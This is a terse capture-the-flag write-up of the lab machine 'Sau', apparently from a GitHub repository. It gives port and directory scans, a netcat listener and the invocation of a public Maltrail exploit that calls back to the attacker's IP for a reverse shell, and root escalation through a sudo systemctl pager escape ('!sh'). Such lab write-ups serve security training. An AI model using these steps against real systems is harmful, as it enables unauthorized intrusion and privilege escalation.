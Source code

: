 # ****10.10.11.224 - Sau****

```bash
rustscan -a 10.10.11.224
```

![image](https://github.com/lufffe/Writeups/assets/90646635/357c3476-3b33-4a07-85e9-ef92ae057edd)

```bash
nmap -A -p 22,55555 10.10.11.224
```

![image](https://github.com/lufffe/Writeups/assets/90646635/3af5ddde-27c9-4e00-a834-936613cc6841)

```bash
gobuster dir -u [http://sau.htb:55555](http://sau.htb:55555/) -w directory-list-2.3-small.txt -t 100 --no-error -b 400,404
```

![image](https://github.com/lufffe/Writeups/assets/90646635/f457fc71-4732-4e6a-bf55-3f1dcdf6e84c)

http://sau.htb:55555/web

![image](https://github.com/lufffe/Writeups/assets/90646635/66832557-c07f-4a20-87c3-69ac57d3880c)

![image](https://github.com/lufffe/Writeups/assets/90646635/4614fdd3-0922-4c4e-abea-b01c1da57303)

![image](https://github.com/lufffe/Writeups/assets/90646635/634e7000-e669-4078-bf87-f8de21d859f5)

https://github.com/spookier/Maltrail-v0.53-Exploit

```bash
nc -lnvp 4455
```

```bash
python [exploit.py](http://exploit.py/) [http://10.10.11.224:55555](http://10.10.11.224:55555/) 10.10.14.8 4455
```

```bash
cat /home/puma/user.txt
```

```bash
sudo -l
```

![image](https://github.com/lufffe/Writeups/assets/90646635/9025966b-3a09-49dc-a8c4-c20c7b870a4a)

puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service

![image](https://github.com/lufffe/Writeups/assets/90646635/5e0c2624-5350-4ca3-849a-3100a9bfdd25)

!sh

![image](https://github.com/lufffe/Writeups/assets/90646635/7f2633cd-e45d-4cd4-8e8e-03308804b7fb)

```bash
cat /root/root.txt
```
